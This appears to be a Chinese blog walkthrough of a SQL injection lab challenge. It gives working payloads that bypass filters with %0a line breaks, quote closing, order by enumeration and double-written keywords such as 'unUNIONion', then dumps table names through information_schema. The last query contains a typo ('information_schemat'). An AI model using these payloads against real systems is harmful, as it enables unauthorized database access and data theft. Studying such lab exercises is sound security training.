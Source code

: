 

<img src="https://i-blog.csdnimg.cn/blog_migrate/0d9479bc5f9367b073ca0ada9570a145.png" alt="" style="max-height:421px; box-sizing:content-box;" />


但是把 or  and 放出来了

并且这道题 使用 %0a就可以绕过空格

我们直接开始判断闭合

```cobol
2'and%0a'1'='1
 
 
2'and%0a'1'='2
```

说明我们得到了闭合

我们直接开始看看能不能执行order by但是这里注意

我们使用order by 是直接通过列举

因为 后面存在 一个 ' 所以我们需要把他完成闭合 不然会报错

```cobol
?id=2'order%0Aby%0A1,2,3,4,'5
```

这个其实也是排列 按照 1,2,3列进行排列  并且通过字母排列



<img src="https://i-blog.csdnimg.cn/blog_migrate/9ba7d4163f0f03e1d6c4ad6c8d89127f.png" alt="" style="max-height:125px; box-sizing:content-box;" />




得到3个字段

直接脱库看看

通过大小写和双写绕过过滤

```cobol
?id=0'unUNIONion%0ASELSELECTECT%0a1,2,'3
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ff2acec73e3974bd6bee4e7d40032531.png" alt="" style="max-height:303px; box-sizing:content-box;" />


直接爆破

我们选择 2 的位置爆破 但是这里要注意 因为2 在 中间字段

所以正确写法应该是

```cobol
union select 1,group_concat(table_name),3 from information_schemat.tables where table_schema=database()
```
